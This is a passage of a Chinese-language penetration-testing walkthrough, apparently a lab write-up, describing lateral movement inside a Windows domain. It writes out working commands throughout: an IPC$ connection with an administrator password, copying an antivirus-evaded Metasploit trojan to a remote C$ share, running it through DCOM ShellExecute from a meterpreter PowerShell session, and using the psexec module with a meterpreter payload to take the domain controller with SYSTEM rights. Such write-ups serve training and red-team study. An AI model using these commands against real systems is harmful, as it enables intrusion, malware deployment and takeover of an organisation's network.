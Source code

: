 有了用户名和密码，拿下PC和域控就简单多了。

我们先控制WEB主机与PC建立一个ipc$连接：

```
net use \\10.10.10.201\ipc$ "1qaz@WSX" /user:administrator
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119231000153

然后，我们新生成一个msf木马shell2.exe并稍做免杀，上传到WEB主机上，然后在WEB主机上执行如下命令，将木马复制到远程主机PC上：

```
copy shell2.exe \\10.10.10.201\c$
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119232811706

然后再meterpreter中载入powershell模块：

```
`load powershell     // 载入powershell模块``powershell_shell    // 进入powershell交互模式`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119232000595

在powershell里面执行如下命令，控制WEB主机使用DCOM在远程机器PC上执行刚刚上传到PC主机C盘里的木马：

```
`$com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"10.10.10.201")``$obj = [System.Activator]::CreateInstance($com)``$item = $obj.item()``$item.Document.Application.ShellExecute("cmd.exe","/c c:\shell2.exe","c:\windows\system32",$null,0)`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119233429042

如上图所示，成功执行PC主机C盘里的木马，并成功得到了PC主机的meterpreter。

经扫描，主机PC开放3389端口：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119234829717

尝试登录PC远程桌面，成功：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119235343230

进攻域控
----

直接利用msf的exploit/windows/smb/psexec模块进行哈希传递：

```
`use exploit/windows/smb/psexec``set payload windows/x64/meterpreter/bind_tcp``set rhost 10.10.10.10``set SMBUser administrator``set SMBPass 1qaz@WSX``run`
```

成功拿下域控制器，并且是system权限：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210120010129280
